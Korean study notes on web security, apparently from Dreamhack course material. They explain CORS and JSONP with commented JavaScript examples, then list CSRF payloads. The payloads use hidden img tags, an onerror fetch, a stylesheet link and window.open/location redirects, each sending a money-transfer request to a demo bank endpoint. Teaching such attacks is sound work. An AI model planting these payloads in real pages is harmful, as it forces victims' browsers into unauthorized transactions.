 ### Cross Origin Resource Sharing (CORS)
- 이미지나 자바스크립트, CSS 등의 리소스를 불러오는 `<img>`, `<style>`, `<script>` 등의 태그는 SOP의 영향을 받지 않습니다.
- 교차 출처의 자원을 공유하는 방법은 CORS와 관련된 HTTP 헤더를 추가하여 전송하는 방법을 사용합니다. 이 외에도 JSON with Padding (JSONP) 방법을 통해 CORS를 대체할 수 있습니다.

```javascript
/*
    XMLHttpRequest 객체를 생성합니다. 
    XMLHttpRequest는 웹 브라우저와 웹 서버 간에 데이터 전송을
    도와주는 객체 입니다. 이를 통해 HTTP 요청을 보낼 수 있습니다.
*/
xhr = new XMLHttpRequest();
/* https://theori.io/whoami 페이지에 POST 요청을 보내도록 합니다. */
xhr.open('POST', 'https://theori.io/whoami');
/* HTTP 요청을 보낼 때, 쿠키 정보도 함께 사용하도록 해줍니다. */
xhr.withCredentials = true;
/* HTTP Body를 JSON 형태로 보낼 것이라고 수신측에 알려줍니다. */
xhr.setRequestHeader('Content-Type', 'application/json');
/* xhr 객체를 통해 HTTP 요청을 실행합니다. */
xhr.send("{'data':'WhoAmI'}");
```
- 표를 살펴보면, 발신측에서 POST 방식으로 HTTP 요청을 보냈으나, OPTIONS 메소드를 가진 HTTP 요청이 전달된 것을 확인할 수 있습니다. 이를 `CORS preflight`라고 하며, 수신측에 웹 리소스를 요청해도 되는지 질의하는 과정입니다.

### JSON with Padding (JSONP)
```javascript
<script>
/* myCallback이라는 콜백 함수를 지정합니다. */
function myCallback(data){
    /* 전달받은 인자에서 id를 콘솔에 출력합니다.*/
	console.log(data.id)
}
</script>
<!--
https://theori.io의 스크립트를 로드하는 HTML 코드입니다.
단, callback이라는 이름의 파라미터를 myCallback으로 지정함으로써
수신측에게 myCallback 함수를 사용해 수신받겠다고 알립니다.
-->
<script src='http://theori.io/whoami?callback=myCallback'></script>
```

## Vulnerability

### CSRF
- html
```html
<img src='http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337' width=0px height=0px>
<img src="/sendmoney?to=dreamhack&amount=1337">
<img src=1 onerror="fetch('/sendmoney?to=dreamhack&amount=1337');">
<link rel="stylesheet" href="/sendmoney?to=dreamhack&amount=1337">
```
- javascript
```javascript
/* 새 창 띄우기 */
window.open('http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337');
/* 현재 창 주소 옮기기 */
location.href = 'http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337';
location.replace('http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337');
```
